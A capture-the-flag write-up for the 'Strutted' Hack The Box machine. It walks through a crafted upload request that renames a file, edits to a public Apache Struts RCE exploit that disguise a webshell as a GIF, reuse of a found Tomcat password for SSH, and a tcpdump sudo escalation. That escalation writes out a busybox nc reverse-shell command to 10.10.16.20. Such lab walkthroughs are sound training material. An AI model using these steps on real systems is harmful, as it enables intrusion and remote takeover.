# Writeup: Strutted
### Difficulty: Medium
### OS: Linux

As the first step, i did the nmap scan.\
\
We can see port 22 and 80. Lets access the http service first.\
\
lets add the `strutted.htb` to `/etc/hosts` with `nano /etc/hosts` and add this line at the end of it.\
\
Now we can take a peek into the site. We can see an upload form which is almost always vulnerable in HTB boxes.\
\
However, what caught my eye is the bottom text which says we can download and see how the platform is configured. Lets download it and unzip it.\
\
While looking through the config files, i saw the `struts` version in the `pom.xml` file.\
\
And since the box name is `strutted`,I figured its main point is `struts`.\
So I googled for any exploits and saw that theres multiple CVEs.\
\
But before that, I wanted to check out the upload form.\
So I uploaded a gif and caught its request with `burpsuite` to take a look at it.\
\
Here we can see that the gif data is being sent with POST. \
I forwarded the request for now.\
And we got the gif i uploaded here.\
\
When i used the copy link button, it didnt work. So i had to inpect it and saw that the gif is indeed being uploaded to the machine and we can view from that.\
\
So lets make a dummy gif first, to check if we can change the filename during the upload, and get a possible exploit. For that, run\
`touch tst.gif` then add 
```
GIF89a;

testgif
```
<font color=green size= 5> I put 84 here which was a mistake, the correct version is 89. I corrected it while uploading later on. 
The correct format is<font color=red> "GIF89a"</font></font>\
\
Upload the the gif and capture the request.\
Lets modify the request\
\
First, we need to change `"upload"` to `"Upload"`.
```
------WebKitFormBoundarycr7UE9hKBNcK6ZcO
Content-Disposition: form-data; name="Upload"; filename="tst.gif"
Content-Type: image/gif
```
Then we should add the header to change the filename in the upload process.\
For that, add the following to at the end of the request before the closing of boundary.
```
------WebKitFormBoundarycr7UE9hKBNCk6ZcO
Content-Disposition: form-data; name="uploadFileName";

tst.txt

```
\
Final request will be similar to this.
```
POST / HTTP/1.1
Host: strutted.htb
Content-Length: 287
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://strutted.htb
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarycr7UE9hKBNcK6ZcO
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://strutted.htb/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: JSESSIONID=D3586AF452D828D8F641635A65FE2C18
Connection: keep-alive

------WebKitFormBoundarycr7UE9hKBNcK6ZcO
Content-Disposition: form-data; name="Upload"; filename="tst.gif"
Content-Type: image/gif

GIF84a;
testgif

------WebKitFormBoundarycr7UE9hKBNCk6ZcO
Content-Disposition: form-data; name="uploadFileName";

tst.txt
------WebKitFormBoundarycr7UE9hKBNcK6ZcO--

```
Now lets forward the request.\
#### REMINDER: "GIF89a is the right one"
\
Nice, the upload was successful. Now lets check the file format.\
\
Boom! We can see that the file format was changed.\
Now lets search for the CVE that we noticed earlier. I used some dorking so that we can find some easy PoC to use.\
And ofcourse its RCE thats always juicy.\
\
I found this nice PoC and so I cloned it into my attackbox.\
\
Install the requirements if needed.\
However, we need to change some things in the exploit.py to work because of the upload restrictions and the parents in the upload file path.(upload/TIMESTAMP/file)\
So lets change the `NO_OF_PARENTS_IN_PATH` to 5
```python
NUMBER_OF_PARENTS_IN_PATH = 5
```
And add a line to add `b"GIF89a` infront of the upload file to bypass the checking.\
And change the `arbitrary.txt` to gif, and change the format to `"image/gif"`.
```python
war_file_content = open(NAME_OF_WEBSHELL_WAR, "rb").read()
war_file_content = b"GIF89a;" + war_file_content

files = {
	HTTP_UPLOAD_PARAM_NAME.capitalize(): ("arbitrary.gif", war_file_content, "image/gif"),
	HTTP_UPLOAD_PARAM_NAME+"FileName": war_location
}
```
I used `nano exploit.py`\
\
Then, with that set, time for exploitation.\
I ran the exploit with\
`python3 exploit.py --url http://strutted.htb/upload.action`\
\
And I got the webshell successfully. So i went and checked who the users in this machine is and found that my user is `james`\
\
Now lets look for the creds for `james`\
\
And inside the `tomcat-users.xml`, I found a password for `admin`. \
\
I tried that password for `james` in ssh and BOOM!.\
We got in...\

### Privilege escalation
With our foothold as `james`, lets check his sudo permissions.\
\
And we can see that he can run tcpdump as root.\
Now with that, lets check [GTFOBins](http://gtfobins.github.io) and check the tcpdump section.\
\
From this we can understand that with the following commands, we can get a rootshell.
```bash
echo 'busybox nc 10.10.16.20 9999 -e /bin/bash' > pwn
chmod +x pwn
```
And on another shell, start a listener.
```bash
nc -nvlp 9999
```
And now lets run the exploit.
```bash
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z ./pwn -Z root
```
\
With that, we have successfully rooted the box and we can `cat` the flags.